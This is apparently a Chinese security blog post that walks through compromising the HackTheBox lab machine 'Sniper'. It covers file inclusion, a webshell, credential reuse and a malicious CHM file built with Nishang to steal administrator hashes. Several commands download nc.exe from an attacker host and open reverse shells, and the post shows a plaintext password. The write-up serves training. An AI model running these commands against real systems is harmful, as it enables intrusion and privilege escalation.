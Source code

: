 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9AB8GSrpqKzbRpwqtQy78A)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **90** 篇文章，本公众号会每日分享攻防渗透技术给大家。

靶机地址：https://www.hackthebox.eu/home/machines/profile/211

靶机难度：中级（4.5/10）

靶机发布日期：2020 年 3 月 24 日

靶机描述：

Sniper is a medium difficulty Windows machine which features a PHP server. The server hosts a

file that is found vulnerable to local and remote file inclusion. Command execution is gained on

the server in the context of NT AUTHORITY\iUSR via local inclusion of maliciously crafted PHP

Session files. Exposed database credentials are used to gain access as the user Chris , who has

the same password. Enumeration reveals that the administrator is reviewing CHM (Compiled

HTML Help) files, which can be used the leak the administrators NetNTLM-v2 hash. This can be

captured, cracked and used to get a reverse shell as administrator using a PowerShell credential

object.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

  

  

一、信息收集

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQENeBE1ibLibsos7MmibJjb8mSiaaxOjEhY8mpvujziaDvWicx7Q36MZaribiaA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.151....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQvyibibc9o2xRuHsVnKhdZCZM8HFQlgklSK2EGPkRgFiaRtVm6M7OSNUMA/640?wx_fmt=png)

nmap 扫描发现运行着 IIS Web 服务器... 

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQva8hmsIxibQbYD0Ll380ibYaqJjZj3uhxQJ0yZD03ichyIqhsJnznxOhw/640?wx_fmt=png)

该网站属于 Sniper Co. 公司... 都是公司的博客等信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQYxQV4356LKCf0bmCDibZIn4zCOSAdVrdgj5rbEIXmQ5w0diaPQ942GXA/640?wx_fmt=png)

```
gobuster dir -w /usr/share/wfuzz/wordlist/general/common.txt -t 20 -x php,html -u http://10.10.10.151/
```

目录爆破发现了一些目录或者文件... 挖掘

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQOsa0cWSAGWVJciazDeQyKmxV4YDkGibNVm05KsnnUCk53cpnESvO0Raw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQyo1kice8RnYKicbfLJB3KrRzgOOpSuETPsSvTFyrlqx0DtdfNAUxfI3g/640?wx_fmt=png)

当点击 English 后，重定向到了 blog-en.php 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQoeZpOZ218OTeckeibpib4x0xEj0diaicibU7ER36AZbIN4TUzdDYcoNcX5Q/640?wx_fmt=png)

通过测试... 发现单独创建的独立用户 smb 共享，靶机无法共享到 webshell 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQLg9lHyxNEDKvOoicO2QRVLIaCwIiaVChRPUB7wTt8COCJFa6HEDUqNoQ/640?wx_fmt=png)

这里创建对所有人开放的 SMB 共享...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQbia9kxUdgpNpZvBqHQRVWSiahvcfQuMQophppQHadLhA7z5WvtRI0Aiaw/640?wx_fmt=png)

通过所有人可访问的共享，测试了查询结果，是正常的... 直接反弹 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQbWjETnPuvFIO23ja1CkT5cS20Dg1PCIJYLnicnicoziczjPXUHJNhBxgA/640?wx_fmt=png)

```
powershell.exe mkdir /dayu; iwr -uri http://10.10.14.51/nc.exe -outfile /dayu/nc.exe; /dayu/nc.exe 10.10.14.51 6666 -e powershell.exe
```

通过 web shell 共享上传了 NC，利用 NC 反弹 shell 获得了低权外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQbxxGvKKINh0prqngpnVsSBKYzNezBysdGcS0GicwbO2I200IfQotbCg/640?wx_fmt=png)

枚举后，在页面底层发现了 chris 的密码凭证...

那后续只需要 Powershell 变量，触发 nc 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQ8o2W3f084DED5Fyo8S9tVsBMfmeVfjAtnDF4JWs0CATnxseJ0yOJlw/640?wx_fmt=png)

```
$pw = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("snipe\chris", $pw)
Enter-PSSession -ComputerName SNIPER -Credential $cred
Start-Process -FilePath "\dayu\nc.exe" -ArgumentList "10.10.14.51 7778 -e cmd.exe" -NoNewWindow
```

通过修改 powershell 变量，成功通过 chris 用户利用 nc 进行反弹 shell...  

获得 user 信息...

这里也可以密匙凭证登陆 mysql 在底层可以看到 passwd 哈希值，破解即可获得 chris 密码...

或者通过 winRM.rb 使用密匙凭证登陆到 chris 用户下... 方法很多...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQfNpV2Z4bjrj5ms9r0ddla7aOWRgkswdiaichOLJSGzEffKX0xOSTqaOQ/640?wx_fmt=png)

这里说到 Chris 很生气... 这里的 php 不好用，出现了很多问题，该公司的首席执行官正在寻找一个应用程序文档文件，并将在此文件夹中寻找它...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQv00s9YxHOjx8icboccALTPywhoZL9sBoeicwSXvobtgJgic4rkZofvPVA/640?wx_fmt=png)

我在 chris 用户的下载目录下发现了. chm 文件...chm 文件是已编译的 HTML 文件，前面的语言说明管理员可能期望使用 chm 文件放置在 C:\Docs \ 中，利用此漏洞，我们可以创建一个包含 UNC 链接的新 chm 文件，触发该文件打开时连接到本地服务器，这可以窃取管理员 NetNTLMv2 哈希值...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQMnnlva925cTLlovuiaicE7pibicnKt0TMknKKQWE69P8JZsU9B3MAaOgOQ/640?wx_fmt=png)

这里利用 nishang 里的 chm 脚本进行...

```
[地址](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQalaZwkOhaDz80Jnq32wKFCJOuTOcNf0G1qV6LJm6lzfrmbEVhHNmJg/640?wx_fmt=png)

安装：

```
[HTML Help Workshop](https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138)
```

需要此工具进行编辑 chm....

下面开始简单利用 powershell 运行脚本，脚本会将有效负载注入有效的 chm 格式中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQL1gG8zDj5PI8wxly68Z1BvHzCFNwicxIwJp23neXMXiajWfeOAqNkInQ/640?wx_fmt=png)

记得管理员模式下运行 powershell：set-ExecutionPolicy RemoteSigned，否则无法运行脚本！！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQhvd5NCr2OEZoIlXGW4vgic6y7FIxl2D9C3ROcvt0pn9mR4eiaEefEx5w/640?wx_fmt=png)

```
./Out-CHM.ps1
Import-Module ./Out-CHM.ps1
out-chm -Payload "powershell c:\dayu\nc.exe 10.10.14.51 9999 -e powershell" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

使用命令导入 Powershell 模块，成功利用 powershell 链接 HTML 创建了 chm 恶意程序...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQIZ37ZzBRKlgkEkYrjrqupXfiah9MJbIluwb9IlC9p2xAt0YlsFwOcdQ/640?wx_fmt=png)

```
Invoke-WebRequest "http://10.10.14.51/doc.chm" -Outfile c:\Docs\doc.chm
```

上传，通过前面写入的 shell，利用 nc 进行成功提权... 获得了 root 信息... 或者通过：

```
https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7
```

介绍的编辑也提到 administrator...  

或者可以通过编辑 HTML Help Workshop--hhw 进行生成恶意 CHM 也是一样的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQrrBauTm8Nsgo4EkJu0wUWjIZUrcUk9iaWlW39ibpLAJKJGQzhvEnOQkw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQrcmfpe09sD6kNUlvfBEX51TfgOSk55k0zo27Jb2hGndOiaXID8aJD5A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZ8UhNt3f2ko5bcJXzHKaQKRuuYzVngibx81ehgoKyr5J4PrurWgPP7DT5AQbp1ibW9hb9MnuVQFfw/640?wx_fmt=png)

这里介绍了 HTML--hhw 的使用方法...

直接创建 shell 利用 NC 提权也行... 方法很多，或者利用 SMB 共享读取到密匙凭证登陆时候的哈希值爆破获得管理员密码... 等等... 就不介绍下去了..

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成这台中等的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)